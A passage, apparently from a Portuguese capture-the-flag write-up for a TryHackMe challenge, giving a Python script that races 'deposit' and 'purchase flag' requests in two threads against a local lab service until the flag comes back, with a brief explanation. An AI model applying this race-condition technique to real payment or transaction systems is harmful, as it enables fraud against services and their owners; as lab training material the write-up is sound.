 ```
import socket
import threading

server_address = ("127.0.0.1", 1337)

def deposit():
    while True:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(server_address)
        sock.sendall(b"deposit")
        sock.close()

def purchase_flag():
    response = b""
    while b"THM" not in response:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(server_address)
        sock.sendall(b"purchase flag")
        response = sock.recv(1024)
        sock.close()
    print(response.decode())

def main():
    deposit_thread = threading.Thread(target=deposit)
    purchase_flag_thread = threading.Thread(target=purchase_flag)
    deposit_thread.start()
    purchase_flag_thread.start()

    deposit_thread.join()
    purchase_flag_thread.join()

if __name__ == "__main__":
    main()
```

O script final é dividido 2 threads secundárias e uma instancia primária. Note que instanciamos o socket enviamos e depois fechamos. A thread purchase_flag tem um filtro que busca por 3 bytes "THM", isso filtra a busca e retorna o valor exato da flag.

Até breve Hackers!


